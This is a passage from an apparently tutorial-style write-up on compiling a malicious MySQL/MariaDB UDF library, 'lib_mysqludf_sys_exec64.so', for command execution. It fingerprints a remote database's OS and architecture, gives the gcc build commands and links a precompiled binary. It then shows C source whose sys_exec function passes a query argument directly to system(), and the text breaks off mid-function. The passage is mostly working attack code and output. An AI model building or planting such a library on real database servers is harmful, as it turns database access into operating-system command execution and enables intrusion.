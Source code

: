 ```c
/**
Type of the user defined function return slot and arguments
*/

enum Item_result {
  INVALID_RESULT = -1, /** not valid for UDFs */
  STRING_RESULT = 0,   /** char * */
  REAL_RESULT,         /** double */
  INT_RESULT,          /** long long */
  ROW_RESULT,          /** not valid for UDFs */
  DECIMAL_RESULT       /** char *, to be converted to/from a decimal */
};

typedef struct UDF_ARGS {
  unsigned int arg_count;
  enum Item_result *arg_type;
  char **args;
  unsigned long *lengths;
  char *maybe_null;
  char **attributes;
  unsigned long *attribute_lengths;
  void *extension;
} UDF_ARGS;
```

Now we can start coding our UDF library, first we'll get the OS and architecture of the remote MySQL instance.

```sql
MariaDB [(none)]> select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| debian-linux-gnu     | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.001 sec)
```

Now we'll compile it, the program is pretty simple, on the main function it checks if the argument count is `1` and that the type of argument is string, next it will pass it over to the `system()` function.

```sh
root@deafbeef:/tmp# gcc -s -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys_exec64.so lib_mysqludf_sys_exec64.c
root@deadbeef:/tmp# file lib_mysqludf_sys_exec64.so
lib_mysqludf_sys_exec64.so: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=b5c712f0e1a0feeeb3d14d5a4cafb0156a91c2ab, stripped
```

* [lib_mysqludf_sys_exec64.so](/compiled/lib_mysqludf_sys_exec64.so) (`ed4ef869b75d47581b734ed0128b6af7b1575f7a6c6eaa39a74aa516b8b48a90`)

```c
#include <string.h>
#include <stdlib.h>
#include <mysql.h>

my_ulonglong sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  return system(args->args[0]);
}

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
  if (args->arg_count == 1 && args->arg_type[0] == STRING_RESULT) {
    return 0;
  } else {
    strcpy(message, "Expected exactly one string type parameter");
```